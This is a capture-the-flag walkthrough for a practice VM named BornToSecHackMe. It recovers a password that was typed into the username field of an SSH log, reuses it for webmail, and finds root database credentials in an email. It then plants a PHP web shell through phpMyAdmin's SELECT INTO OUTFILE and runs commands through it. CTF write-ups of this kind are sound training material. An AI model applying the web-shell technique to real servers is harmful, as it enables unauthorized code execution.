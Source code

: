``` shell
Oct 5 17:51:15 BornToSecHackMe sshd[1782]: Accepted password for admin from 62.210.32.157 port 56754 ssh2
Oct 5 17:51:15 BornToSecHackMe sshd[1782]: pam_unix(sshd:session): session opened for user admin by (uid=0)
```

this line seems intresting:

```shell
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from
```
let's try to login using lmezard as username and !q\]Ej?*5K5cy*AJ as password (it worked what a surprise)
Once connected we can see the user list 

admin	Admin	 	E-mail
lmezard	User	 	 
qudevide	User	 	 
thor	User	 	 
wandre	User	 	 
zaz	User

after a few investigations we found nothing particular the account has no special rights.
BUT we found his email "laurie@borntosec.net" and we can use it to connect to the webmail.

we are going to connect to the webmail using the email and the password we found earlier.

we found an email from the admin? to lmezard:

```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

## PhpMyAdmin

we can now connect to phpmyadmin using the credentials we found earlier.
the forum is coded in php from the sql console command we can try to inject some code.

let's create a simpe file:
```SQL
SELECT "<?php system($_GET['cmd']) ?>" into outfile "/var/www/forum/templates_c/test.php"
```
it can now be accessed from the browser using the url: https://192.168.56.109/forum/templates_c/test.php

With the injected page we can now execute commands on the server. For example:
```
https://192.168.56.109/forum/templates_c/test.php?cmd=pwd
```
that gives us /var/www/forum/templates_c

at this point it's like using a shell on the server. we can now navigate through the directories and find the interesting stuff.
